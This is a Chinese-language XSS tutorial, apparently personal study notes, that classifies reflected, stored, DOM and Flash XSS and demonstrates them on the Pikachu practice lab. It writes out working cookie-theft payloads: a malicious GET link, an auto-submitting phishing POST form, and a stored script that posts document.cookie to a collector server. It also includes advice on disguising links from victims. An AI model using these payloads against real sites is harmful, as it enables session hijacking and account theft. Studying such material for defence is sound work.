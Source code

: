 ```yaml
---
description: 本笔记整理自互联网并尽可能的给出参考链接，如有侵权，请联系我删除。
---
```


# XSS攻击分类与简单利用

传统意义上我们会将XSS分类成反射型XSS，存储型XSS，DOM型XSS，但这样的分类并不准确。因为XSS存在不同的分类依据，严格意义上来说，我们可将XSS可以按下图进行分类。

![XSS&#x5206;&#x7C7B;](.gitbook/assets/image%20%2890%29.png)

## 一、反射型XSS（按形式分类）

### **什么是反射型XSS？** 

反射型XSS是非持久化的，需要欺骗用户点击链接才能触发XSS攻击代码，因其需交互的特征更易被防御。

### **反射型XSS的分类** 

1、反射型XSS\(GET）： 

输入的恶意代码通过GET传递，并直接在网页中触发

![&#x5F53;&#x63D0;&#x4EA4;&#x5B57;&#x7B26;&#x4E32;test&#x65F6;&#xFF0C;&#x4F1A;&#x76F4;&#x63A5;&#x5199;&#x5165;&#x5230;&#x7F51;&#x9875;&#x4E2D;](.gitbook/assets/image%20%2843%29.png)

![&#x53EF;&#x4EE5;&#x76F4;&#x63A5;&#x7684;&#x63D0;&#x4EA4;&#x4E00;&#x4E2A;JS&#x4EE3;&#x7801;&#x6765;&#x89E6;&#x53D1;&#x5F39;&#x7A97;](.gitbook/assets/image%20%2836%29.png)

2、反射型XSS\(POST\)：

 输入的恶意代码通过POST传递，并直接在网页中触发，相比GET传参更加隐秘

![POST&#x63D0;&#x4EA4;&#x6846;](.gitbook/assets/image%20%2882%29.png)

![&#x89E6;&#x53D1;&#x6F0F;&#x6D1E;](.gitbook/assets/image%20%2862%29.png)

3、GET与POST反射型XSS的区别

* GET方式可以直接使用带有恶意代码的链接来实现如窃取用户COOKIE等XSS攻击，但链接需要进行伪装，避免被用户发现。
* POST方式需要攻击者在钓鱼服务器上架设自动POST页面来实现如窃取COOKIE等XSS攻击，相比GET方式更加隐蔽，用户不易察觉。

### **反射型XSS的简单利用:以窃取用户COOKIE为例** 

诱骗被攻击者点击存在XSS攻击代码的链接，触发攻击代码，进行攻击。 

1、GET方式 

准备用于接收COOKIE的服务器（这里使用了pikachu的XSS后台）

![&#x5C06;&#x94FE;&#x63A5;&#x91CD;&#x5B9A;&#x5411;&#x56DE;&#x539F;&#x9875;&#x9762;&#xFF0C;&#x907F;&#x514D;&#x7528;&#x6237;&#x53D1;&#x89C9;&#x5F02;&#x5E38; ](.gitbook/assets/image%20%2844%29.png)

构造含恶意代码的链接：

`localhost:8080/vul/xss/xss_reflected_get.php?message=document.location = &apos;<a href="http://localhost:2333/pkxss/xcookie/cookie.php?cookie=">http://localhost:2333/pkxss/xcookie/cookie.php?cookie=</a>&apos; + document.cookie;&submit=submit` 

PAYLOAD分析:

`document.location = &apos;<a href="http://localhost:2333/pkxss/xcookie/cookie.php?cookie=">http://localhost:2333/pkxss/xcookie/cookie.php?cookie=</a>&apos; + document.cookie; //将COOKIE发送给恶意服务器`

诱导用户点击后，就能收到用户的COOKIE信息

![](.gitbook/assets/image%20%289%29.png)

2、POST方式 

准备用于接收COOKIE的服务器（这里使用了pikachu的XSS后台） 

在钓鱼服务器上创建一个带有表单自动post功能的页面，例如：

```text
<html>
<head>
    <script>
	    window.onload = function() {document.getElementById("postsubmit").click();}
        //触发表单自动提交
    </script>
</head>
<body>
    <form method="post" action="http://localhost:8080/vul/xss/xsspost/xss_reflected_post.php">
        //表单提交到存在xss漏洞的页面
        <input id="xssr_in" type="text" name="message" 
            value="<script>
                document.location = 'http://localhost:2333/pkxss/xcookie/cookie.php?cookie=' + document.cookie;
	        </script>"
            //XSS攻击代码，获取当前登录账户的COOKIE
	    />
        <input id="postsubmit" type="submit" name="submit" value="submit" />
    </form>
</body>
</html>

```

诱导用户在登录状态下去点击钓鱼页面，就可以获取到COOKIE

![](.gitbook/assets/image%20%2897%29.png)

## **二、存储型XSS（按形式分类）**

### **什么是存储型XSS？** 

存储型XSS是持久的，恶意代码存储在网站服务器之中，任何用户的访问都会触发恶意代码的执行，进行蠕虫攻击，危害较大，隐蔽性较好。常见于没有进行严格过滤的留言板等可以进行数据提交的页面。

![&#x4E00;&#x4E2A;&#x5B58;&#x5728;XSS&#x6F0F;&#x6D1E;&#x7684;&#x7559;&#x8A00;&#x677F;](.gitbook/assets/image%20%286%29.png)

![&#x6BCF;&#x6B21;&#x5BF9;&#x7559;&#x8A00;&#x677F;&#x754C;&#x9762;&#x7684;&#x8BBF;&#x95EE;&#x90FD;&#x4F1A;&#x89E6;&#x53D1;&#x653B;&#x51FB;&#x4EE3;&#x7801;](.gitbook/assets/image%20%2835%29.png)



### **存储型XSS的简单利用:以窃取用户COOKIE为例** 

准备一个用于接收COOKIE的服务器（这里使用了pikachu的XSS后台）

![](.gitbook/assets/image%20%2861%29.png)

构建获取COOKIE的恶意代码

```text
<script>
    var url='http://localhost:2333/pkxss/xcookie/cookie.php';
    var data='cookie='+document.cookie;
    var xhr= new XMLHttpRequest();
    xhr.open('POST',url);
    xhr.setRequestHeader('content-type','application/x-www-form-urlencoded');
    xhr.send(data);
</script>
```

JS模拟POST请求，将用户的COOKIE发送出去

![](.gitbook/assets/image%20%2837%29.png)

每次访问都会自动的将COOKIE发送

![](.gitbook/assets/image%20%282%29.png)

## **三、DOM型XSS（按接口分类）**

### **什么是DOM型XSS？**

 DOM型XSS漏洞基于DOM文档对象模型，此型XSS通过DOM的特性来动态修改页面代码。DOM型XSS也可以分为反射型与存储型。 

存储型：

![](.gitbook/assets/image%20%2857%29.png)

反射型：

![](.gitbook/assets/image%20%2889%29.png)

### **什么是DOM？** 

DOM是一个树状模型，可以使用JAVASCRIPT代码根据一层层节点来遍历/获取/修改对应的节点，对象，值。 

### **DOM型XSS简单利用**

进行输入测试，用开发者工具观察页面变化

![&#x6211;&#x4EEC;&#x8F93;&#x5165;&#x7684;test&#x88AB;&#x4F20;&#x5165;&#x4E86;a&#x6807;&#x7B7E;&#x7684;href&#x4E2D;&#xFF0C;&#x5B58;&#x5728;DOM XSS](.gitbook/assets/image%20%2840%29.png)

![&#x53EF;&#x4EE5;&#x4F7F;&#x7528;JAVASCRIPT&#x4F2A;&#x534F;&#x8BAE;&#x8FDB;&#x884C;XSS&#x653B;&#x51FB;](.gitbook/assets/image%20%2895%29.png)



## **四、非DOM型XSS（按接口分类）**

### **什么是非DOM型XSS?** 

并不依赖DOM特性来实现XSS攻击的XSS属于非DOM型XSS。

## **五、JSXSS（按介质分类）**

### **什么是JS XSS?** 

基于JS进行执行的XSS漏洞属于JS XSS类型。

## **六、FLASHXSS（按介质分类）**

_Adobe 正式宣布将在 2020 年停止支持 Flash（_~~_十有八九和XP一样死而不僵_~~_）_

### **什么是FLASH XSS?** 

FLASH是使用ActionScript所开发的Base on ECMAScript,如果开发者没有进行输入过滤或存在敏感函数，就可以执行任意JAVASCRIPT。

### **FLASH XSS攻击流程**

![](.gitbook/assets/image%20%2827%29.png)

### **FLASH XSS的简单利用：以敏感函数为例**

